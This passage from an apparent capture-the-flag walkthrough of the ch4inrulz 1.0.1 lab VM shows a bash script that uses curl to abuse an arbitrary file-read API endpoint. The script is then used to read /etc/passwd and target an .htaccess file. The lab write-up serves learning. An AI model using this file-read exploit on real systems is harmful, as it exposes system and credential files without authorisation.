 In particular, `/api/files_api.php` exists.

![23727c34.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/23727c34.png)

I found out that `/api/files_api.php` is able to read files through `POST` requests. To that end, I wrote a script to `cat` files which I have read permissions.

<div class="filename"><span>files.sh</span></div>

```bash
#!/bin/bash

HOST=192.168.20.130
API=api/files_api.php
PORT=8011
FILE=$1

curl -s -d "file=$FILE" "http://$HOST:$PORT/$API" \
| sed -e '6,$!d' -e '$d'
```

Let's read `/etc/passwd`.

![2dd01c7a.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/2dd01c7a.png)

Not bad. There's a `frank` account and `www-data`'s home directory is at `/var/www`.

Now, let's read `/var/www/development/.htaccess`.
